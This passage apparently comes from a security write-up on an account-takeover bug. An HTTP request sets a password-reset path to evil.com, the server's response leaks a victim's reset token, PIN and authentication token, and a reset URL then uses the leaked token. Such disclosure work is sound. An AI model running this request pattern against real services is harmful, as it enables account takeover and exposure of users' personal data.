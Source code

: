 - **Request:**

```http
POST /api/public/passwords/ HTTP/2
Host: example.com
Content-Type: application/json
X-User-Token: REDACTED

{
  "reset_password_path": "https://evil.com/",
  "email": "victim@gmail.com"
}
```

- **Response:**

```json
HTTP/2 201 Created

{
  "pin": "204792",
  "id": 912453,
  "name": "test test",
  "email": "victim@gmail.com",
  "phoneNumber": "+346546xxx91",
  "phoneNumberNormalized": "+346546xxx91",
  "formattedPhoneNumber": "+34 654 6xx x91",
  "balanceCents": 0,
  "authenticationToken": "o5XA6_....L14ENqEp",
  "jobId": "b7880eb5-d2be-4277-bd05-ec27c4e3aac7"
  [...]
},
  "https://evil.com/",
  "dc9483f94a319....acdabe75cf5e334"
```

The following image shows the response from the undocumented API, which exposes sensitive user information along with the password reset token.

<img width="986" height="495" alt="API Response" src="https://github.com/user-attachments/assets/39c86619-1699-46d8-9b77-c18539530da3" />

### From Token to Takeover

With the token in hand, the attacker could directly reset the victim’s password:

```json
https://example.com/reset-password?reset_password_token={Token_here}
```

The following image shows the reset password form using the leaked token.

<img width="1913" height="444" alt="ResetPasswordForm" src="https://github.com/user-attachments/assets/baa17728-5391-4d28-8d05-6010e79a3adf" />

The server accepted it, allowed the password update, and granted full control over the victim’s account:
